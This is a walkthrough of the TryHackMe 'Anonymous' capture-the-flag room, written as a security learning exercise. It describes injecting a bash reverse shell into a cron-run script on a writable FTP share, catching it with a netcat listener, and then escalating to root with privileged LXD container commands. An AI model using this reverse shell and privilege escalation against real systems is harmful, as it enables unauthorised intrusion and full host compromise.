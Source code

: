 # Anonymous Walkthrough - TryHackMe  

---

### Introduction 

Essentially, the owner of the box left an **FTP directory writable to guests**. Inside, there is a bash script called `clean.sh` that cleans the `/tmp` directory. This script is run by a **cron job**, which means we can **modify files in the FTP share** to include a malicious line of code and gain a shell on the box — part 1 done.  

For privilege escalation, the user we log in as is a member of the **sudo group**. This allows us to leverage **LXD** to get root on the box.  

Let’s jump in!  

---

### Step 1: Nmap Scan

We start with a basic scan:

``
nmap -sC -sV <target-ip>``

Initially, only two ports were open.

No web server was found, so a full TCP scan was run to check for missed ports.

Two more ports were discovered: standard SMB ports.

###Step 2: Service Analysis

We discovered anonymous FTP login is allowed.

###Step 3: FTP Enumeration

Connect to FTP using:
`
ftp <target-ip>
`
Explore the files on the FTP share:

    To_do.txt – Reminder to disable anonymous login

    clean.sh – Bash script deleting /tmp files

    removed_files.log – Logs of deleted files

Since the script is run by cron, modifying clean.sh allows us to inject a reverse shell.
###Step 4: SMB Enumeration

SMB share named pics allowed NULL authentication.

###Step 5: Gaining a Shell

Edit clean.sh and add a bash reverse shell with your IP:
`
bash -i >& /dev/tcp/<your-ip>/4444 0>&1
`
Upload the modified script using FTP put:
`
ftp> put clean.sh
`
Start a listener on your machine:
`
nc -lvnp 4444
`
Wait for the cron job to execute clean.sh. A few seconds later, a shell is obtained.

###Step 6: Capture User Flag

Navigate to the user's home directory:
`
cd /home/namelessone
cat user.txt
`
###Step 7: Privilege Escalation

Found potential privilege escalation via LXD.

###Step 8: Exploiting LXD

LXD is Ubuntu's container manager using Linux containers. Users in the lxd group can be exploited to gain root.

    Download LXD Alpine builder from GitHub.

    Build a small Alpine Linux image.

    Upload the image to the target machine.

    Import the image into LXC:
`
lxc image import alpine.tar.gz --alias myalpine
`
Create and start a container:
`
lxc init myalpine privesc -c security.privileged=true
lxc config device add privesc mydisk disk source=/ path=/mnt
lxc start privesc
lxc exec privesc -- /bin/bash
`
We now have root access on the box.

###Step 9: Capture Root Flag
`
cat /root/root.txt
`
Submit the flag and claim your points!
Conclusion

Exploited writable FTP + cron to get a shell.

Escalated privileges using LXD containers.

Learned about the dangers of sudo group membership and LXD.

References

Privilege Escalation via LXD

Linux Privilege Escalation via LXD & Hijacked UNIX Socket

TryHackMe Room: Anonymous
